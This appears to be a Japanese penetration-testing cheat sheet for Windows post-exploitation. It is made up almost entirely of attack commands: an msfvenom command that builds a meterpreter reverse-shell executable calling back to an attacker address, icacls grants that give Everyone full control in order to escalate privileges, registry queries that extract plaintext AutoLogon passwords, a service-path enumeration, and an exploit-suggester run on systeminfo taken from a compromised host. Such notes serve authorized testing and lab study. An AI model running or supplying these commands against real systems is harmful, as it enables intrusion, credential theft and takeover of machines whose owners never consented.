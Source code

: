 ```
net user <win_username> /domain
```


### リバースシェル生成

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f exe -o /home/kali/Desktop/rs_exploitl.exe
```

### icaclsによる権限設定漏れからの権限昇格

#### 権限情報の確認
```
icacls <権限を確認したいファイルのパス>
```

  
権限一覧  
N – アクセス権なし  
F – フルアクセス権  
M – 変更アクセス権  
RX – 読み取りと実行のアクセス権  
R – 読み取り専用アクセス権  
W – 書き込み専用アクセス権  
D – 削除アクセス権  
  
#### 手動で権限を昇格する
```
icacls <権限昇格したいファイルのパス> /grant <ユーザー名>:<Perm>
icacls C:\work\test.txt /grant Everyone:F
```

### Auto Logon
windowsで自動ログインさせるためのもの平文でユーザー名、パスワードが保存されている
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```

### ユーザーが実行しているバイナリーがあるかを探す。
```
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """
```

### windows exploit suggester  
侵入した先でsysteminfoコマンドを入力して出力結果をテキストファイルにコピー、  
そのあと自分のターミナル上で以下のコマンドで脆弱なバージョンかどうかを調べられる  
```
./windows-exploit-suggester.py --database 2023-08-05-mssb.xls --systeminfo win7info.txt
```
